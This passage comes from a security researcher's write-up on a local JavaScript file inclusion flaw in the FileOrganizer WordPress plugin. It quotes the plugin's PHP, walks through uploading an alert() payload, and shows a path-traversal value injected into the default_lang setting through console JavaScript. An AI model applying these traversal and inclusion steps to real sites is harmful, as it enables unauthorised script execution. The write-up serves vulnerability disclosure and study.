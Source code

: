 ```php
    add_submenu_page( 'fileorganizer', __('Settings'), __('Settings'), $manu_capability, 'fileorganizer-settings', 'fileorganizer_settings_handler');
    [...]
}
[...]
// Include the setting handler
function fileorganizer_settings_handler(){
    include_once (FILEORGANIZER_DIR .'/main/settings.php');
    fileorganizer_settings_page();
}
```

Not only that, but function `fileorganizer_settings_page` also checks the nonce, so it's not vulnerable to CSRF:

```php
function fileorganizer_settings_page(){
    [...]
    if(isset($_POST['save_settings'])){
        // Check nonce
        check_admin_referer('fileorganizer_settings');
        [...]
    }
    [...]
}
```

Damn, so this vulnerability is administrator or above only. Well, if so, we can use the file manager to upload arbitrary JavaScript files as an administrator user (Which is an intended feature).

To exploit this local JavaScript file inclusion vulnerability, we need to first upload our own JavaScript file using the file manager:

```shell
┌[siunam♥Mercury]-(~/Downloads)-[2025.01.08|21:30:21(HKT)]
└> echo -n 'alert(document.domain)' > payload.js
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108213128.png)

> Note: You can upload this file in anywhere inside the webroot directory, just make sure you don't traverse too far.

Then, update the language setting `default_lang` to `/../../../../../../../../payload`. We can do that by sending a POST request to `/wp-admin/admin.php?page=fileorganizer-settings`, or go to the plugin's setting page and enter the following JavaScript code in the browser console:

```javascript
document.querySelector("select[name=default_lang]").selectedOptions[0].value = "/../../../../../../../../payload";
document.querySelector("input[name=save_settings]").click();
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108214013.png)
